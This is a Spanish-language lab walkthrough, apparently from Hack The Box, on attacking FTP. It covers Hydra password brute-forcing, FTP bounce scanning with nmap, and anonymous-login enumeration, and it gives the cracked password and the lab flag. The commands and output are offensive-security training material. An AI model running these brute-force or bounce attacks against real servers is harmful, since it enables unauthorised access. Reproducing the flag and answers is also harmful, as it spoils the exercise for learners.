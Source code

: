 Puedo hacer fuerza bruta contra credenciales de un servidor FTP (sabiendo que el user es fiona), con:
```
hydra -l fiona -P /usr/share/wordlists/rockyou.txt ftp://10.129.203.7
```

---
### Ataques de rebote FTP
Un FTP Bounce Attack usa un servidor FTP expuesto como relé para que éste inicie conexiones hacia equipos internos (no accesibles desde Internet), permitiendo sondeos de puertos o exfiltración indirecta si el servidor FTP está mal configurado.

- El atacante se conecta al servidor FTP (FTP_DMZ) usando credenciales (públicas/anónimas o comprometidas).
- Mediante el comando `PORT` (o manipulando PASV) indica una dirección/puerto objetivo distinto al servidor FTP.
- El servidor FTP, si permite hacer conexiones de datos a direcciones arbitrarias, abre una conexión hacia el **Internal_DMZ** y actúa como proxy para el atacante.
- Resultado: el atacante puede escanear puertos o recibir datos desde la máquina interna sin acceder directamente a ella.

Flujo típico:
- Conexión al servidor FTP público (control channel).
- Autenticación (anonymous o credenciales válidas).
- Uso del comando PORT \<IP>,\<p1>,\<p2> para indicar a qué IP/puerto debe enviarse la conexión de datos.
- El servidor FTP abre la conexión de datos hacia la IP indicada.
- El atacante usa esa conexión para sondear puertos o transferir/recibir datos.
- Registrar/analizar respuestas para mapear servicios abiertos en la red interna.

```
# Escanea el puerto 80 en 172.17.0.2 utilizando el servidor FTP 10.10.110.213 como proxy
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

---
**Target: 10.129.203.6**
**1. What port is the FTP service running on?**
Ejecuto:
```
nmap -sCV --open --min-rate 2000 -vvv -Pn -n 10.129.203.6
```
Y obtengo como respuesta:
```
2121/tcp open  ftp         syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (InlaneFTP) [10.129.203.6]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative

```

Siendo la respuesta del ejercicio: 2121

**2. What username is available for the FTP server?**
Ejecutando:
```
ftp 10.129.203.6 2121
```

Puedo entrar con el usuario "anonymous" (sin contraseña).
Hay una lista de usuarios que me descargo, y entre otros, se encuentra "robin". Pruebo dicha respuesta y es correcta.. Pero pienso que "anonymous" debería ser la respuesta.
Respuesta: robin

**3. Using the credentials obtained earlier, retrieve the flag.txt file. Submit the contents as your answer.**
De la misma sesión de "anonymous", me descargo un archivo llamado "password.list" sobre la cual se incluye una lista de contraseñas posibles. 
Aplico fuerza bruta con:
```
hydra -l robin -P passwords.list ftp://10.129.203.6:2121
```

Dando como respuesta:
```
hydra -l robin -P passwords.list ftp://10.129.203.6:2121
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-15 02:45:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 250 login tries (l:1/p:250), ~16 tries per task
[DATA] attacking ftp://10.129.203.6:2121/
[2121][ftp] host: 10.129.203.6   login: robin   password: 7iz4rnckjsduza7
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-15 02:46:31
```

Obteniendo la credencial: 7iz4rnckjsduza7

Me logeo en el servicio FTP con "robin:7iz4rnckjsduza7", y me descargo el archivo "flag.txt" (con get flag.txt) Siendo la respuesta al ejercicio:

Respuesta: HTB{ATT4CK1NG_F7P_53RV1C3}







